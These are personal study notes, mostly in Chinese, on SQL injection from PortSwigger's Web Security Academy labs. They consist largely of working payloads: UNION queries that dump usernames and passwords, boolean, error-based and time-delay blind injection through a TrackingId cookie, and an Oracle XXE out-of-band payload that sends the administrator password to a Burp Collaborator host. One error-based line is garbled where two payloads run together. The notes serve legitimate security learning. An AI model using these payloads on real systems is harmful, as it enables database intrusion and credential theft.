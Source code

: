 ```yaml
---
layout: article
title: SQL injection--Web Security Academy 1
mathjax: true
key: a00002	
---
```


## 前言

最近学习实践的过程深感自己基础的不足和英语水平的匮乏，正好又找到一个很好的学习网站（https://portswigger.net/web-security/learning-path 既有知识点也有相应的靶场，唯一的缺点就是全英文的），于是想借此重新打一遍web安全基础，并提高自己的英语水平，目前已经学习了XXE，SQL注入和Authentication部分，正在看OAuth的部分，今天先给出SQL injection 学习过程中的笔记，供分享与备忘。

Web Security Academy 分了如下5个点来介绍SQL注入，如下：

## 1.Retrieving hidden data

- where you can modify an SQL query to return  additional results.

  +是拼接字符串的；

  --是SQL的注释标记

## 2.Subverting application logic

- where you can change a query to interfere with the application's logic.

## 3.UNION attacks

- where you can retrieve data from different database tables.

### 两个条件：

1. The individual queries must return the **same number of columns**.
2. The **data types** in each column must **be compatible** between the individual queries.

​               `( 'UNION SELECT 'a',NULL,NULL,NULL--)`

### 	猜columns：

```sql
order by *num --
union select NULL,NULL --
```

There is a built-in table on Oracle called **DUAL** which can be used for this purpose. 
So the injected queries on Oracle would need to look like: 

```sql
UNION SELECT NULL FROM DUAL--
```

### Retrieving multiple values within a single column

```sql
concat(username,':',password)
username||'~'||password
```

## 4.Examining the database

- where you can extract information about the version and structure of the database.

#### Oracle

- On Oracle databases, every SELECT statement must specify a table to select FROM

  There is a built-in table on Oracle called dual which you can use for this purpose. For example: 

```sql
UNION SELECT 'abc' FROM dual
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

### Listing the contents of the database

#### EXCEPT Oracle

```sql
'+union+select+table_name,NULL+from+information_schema.tables--+
'+union+select+column_name,NULL+from+information_schema.columns+where+table_name='pg_user'--+
'+union+select+usename,passwd+from+pg_user--+
```

#### Oracle

```sql
'+union+select+NULL,NULL+from+dual--+
'+union+select+NULL,NULL+from+all_tables--+
'+union+select+table_name,NULL+from+all_tables--+
'+union+select+column_name,NULL+from+all_tab_columns+where+table_name='USERS_QCCECD'--+
'+union+select+USERNAME_WMJDSJ,PASSWORD_MPFXMQ+from+USERS_QCCECD--+
```

### 5.Blind SQL injection, 

- where the results of a query you control are not returned in the application's responses

#### Exploiting blind SQL injection by triggering conditional responses（Boolean）

```sql
TrackingId=xyz' AND '1'='1  	--验证
TrackingId=xyz' AND '1'='2  	--确定显示不同
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a  	--确定数据表
--confirming that there is a user called administrator.
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a  	
--确定字段长度
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a  	
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a   	

```

#### Inducing conditional responses by triggering SQL errors（报错）

```sql
TrackingId=xyz'    	--verify the vulnerability 
TrackingId=xyz''    --error disappears
TrackingId=xyz'||(SELECT '')||'   --still error ,might be oracle
TrackingId=xyz'||(SELECT '' FROM dual)||'     --confirm oracle
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'	 --table confirmed
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' --error message is received
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'		
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'		--verify table
--username verified
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'	
-get the info
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

#### Exploiting blind SQL injection by triggering time delays

| **Oracle**     | dbms_pipe.receive_message(('a'),10) |
| -------------- | ----------------------------------- |
| **Microsoft**  | WAITFOR  DELAY '0:0:10'             |
| **PostgreSQL** | SELECT  pg_sleep(10)                |
| **MySQL**      | SELECT  sleep(10)                   |

example ：  `'||SELECT sleep(10)--`  

**分号**用 <font color="red">%3B</font>

```sql
'%3Bselect case when (1=1) then pg_sleep(10) else pg_sleep(0) end--

'%3Bselect case when (username='administrator') then pg_sleep(5) else pg_sleep(0) end from users--

'%3Bselect case when (username='administrators') then pg_sleep(5) else pg_sleep(0) end from users--

'%3Bselect case when (length(password)>20) then pg_sleep(5) else pg_sleep(0) end from users where username='administrator'--

'%3Bselect case when (substr(password,1,1)='a') then pg_sleep(2) else pg_sleep(0) end from users where username='administrator'--
```

#### Exploiting blind SQL injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

##### oracle（ combined with xxe）example：

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//dp61vdo4svrlp985ts0r562e95fw3l.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

retrive data

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.kym84kxb120syghc2z9yedblico4ct.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### SQL injection cheat sheet

链接包含常见不同数据库的绕过方法

[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)